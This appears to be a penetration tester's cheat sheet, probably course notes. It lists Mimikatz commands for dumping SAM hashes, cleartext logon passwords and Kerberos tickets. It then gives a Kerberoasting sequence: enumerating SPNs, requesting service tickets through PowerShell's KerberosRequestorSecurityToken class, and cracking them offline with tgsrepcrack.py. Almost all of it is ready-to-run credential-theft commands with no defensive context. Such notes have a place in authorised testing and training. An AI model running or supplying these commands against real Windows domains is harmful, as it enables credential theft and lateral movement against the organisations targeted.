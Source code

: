 Mimikatz

```
mimikatz.exe
privilege::debug
token::elevate
lsadump::sam
sekurlsa::logonpasswords
sekurlsa::tickets
sekurlsa::tickets /export

kerberos::ask /target:<SPN> MSSQLSvc/xor-app23.xor.com:1433
standard::base64
kerberos::list /export

```
Get a list of SPNs:

```
/usr/share/kerberoast/GetUserSPNs.ps1
```


From PowerShell, we can use the KerberosRequestorSecurityToken class655 to request the service ticket

```
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/xor-app23.xor.com:1433"

klist
```
crack password

```
python /usr/share/kerberoast/tgsrepcrack.py wordlist.txt 1-40a50000- Offsec@HTTP~CorpWebServer.corp.com-CORP.COM.kirbi

```